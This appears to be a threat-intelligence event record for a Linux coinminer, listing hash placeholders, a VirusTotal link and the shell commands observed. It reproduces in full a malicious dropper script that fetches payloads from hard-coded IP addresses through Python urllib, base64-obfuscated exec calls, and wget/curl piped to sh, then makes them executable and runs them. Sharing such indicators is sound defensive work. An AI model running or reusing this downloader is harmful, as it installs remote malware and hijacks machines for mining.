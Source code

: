 ### file — File object describing a file with meta-information
* [Artifacts dropped] md5: <md5> — Coinminer
* [Artifacts dropped] sha1: <sha1> — Coinminer
* [Artifacts dropped] sha256: <sha256> — Coinminer

### virustotal-report — VirusTotal report
* [Other] datetime: 2019-02-10T19:49:48 — Coinminer
* [External analysis] link: https://www.virustotal.com/file/0bc0ea8a037baa0154c4c136bf7a3167cfd81f3c33b2969855d4ef5ce0090e72/analysis/1549828188/ — Coinminer
* [Artifacts dropped] text: 1/58 — Coinminer

### shell-commands — Object describing a series of shell commands executed. This object can be linked with malicious files in order to describe a specific execution of shell commands.
* [Other] text: Bash
* [Other] text: Malicious
* [Other] text: atd
* [Other] text: /bin/sh /usr/lib/ConsoleKit/run-session.d/pam-foreground-compat.ck session_removed

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: #!/bin/sh
if ! ps -ax | grep -v grep | grep "[ ]"$ >/dev/null; then
	  nohup python -c 'import os,urllib; proxies = {"http": "http://41.203.146.142:8080"};f=open("/tmp/hsos","wb");f.write(urllib.urlopen("http://165.227.140.184/tmp/ofd",proxies=proxies
).read());f.close();os.system("chmod +x /tmp/hsos");os.system("chmod 777 /tmp/hsos");os.system("/tmp/hsos")' &
	  sleep 3
	  nohup python3 -c 'import urllib.request; urllib.request.urlretrieve("http://165.227.140.184/tmp/ofd", "/tmp/vov");os.system("chmod 7777 /tmp/vov");os.system("chmod +x /tmp/vov");os
.system("/tmp/vov")' 2>&1
	  sleep 3
	  nohup python -c 'exec("aW1wb3J0IG9zLHVybGxpYixiaW5hc2NpaTsgbD1iaW5hc2NpaS5iMmFfaGV4KG9zLnVyYW5kb20oNCkpOyBoZD11cmxsaWIudXJscmV0cmlldmUgKCJodHRwOi8vODcuMjM2LjIxMi4yMzcvdG1wL29mZCIsI
CIvdG1wLyIrbCk7b3Muc3lzdGVtKCJjaG1vZCA3Nzc3IC90bXAvIitsKTtvcy5zeXN0ZW0oImNobW9kICt4IC90bXAvIitsKTsgb3Muc3lzdGVtKCIvdG1wLyIrbCk=".decode("base64"))' 2>&1
	  sleep 3
	  nohup python -c 'exec("aW1wb3J0IG9zLHVybGxpYixiaW5hc2NpaTtsPWJpbmFzY2lpLmIyYV9oZXgob3MudXJhbmRvbSg0KSk7aD1vcy5wYXRoLmV4cGFuZHVzZXIoIn4vIitsKTtwcm94aWVzPXsiaHR0cCI6Imh0dHA6Ly8yMTEuM
jQuMTAzLjIyODo4MCJ9O2Y9b3BlbihoLCJ3YiIpO2Yud3JpdGUodXJsbGliLnVybG9wZW4oImh0dHA6Ly84Ny4yMzYuMjEyLjIzNy90bXAvb2ZkIixwcm94aWVzPXByb3hpZXMpLnJlYWQoKSk7Zi5jbG9zZSgpO29zLnN5c3RlbSgiY2htb2QgNzc3NyB
7fSIuZm9ybWF0KGgpKTtvcy5zeXN0ZW0oImNobW9kICt4IHt9Ii5mb3JtYXQoaCkpOyBvcy5zeXN0ZW0oInt9ICYiLmZvcm1hdChoKSk=".decode("base64"))' 2>&1
	  wget -O - http://185.165.169.6/jp/_j.sh|sh ; curl http://185.165.169.6/jp/_j.jpg|sh
fi
* [Other] text: Bash
* [Other] text: Malicious
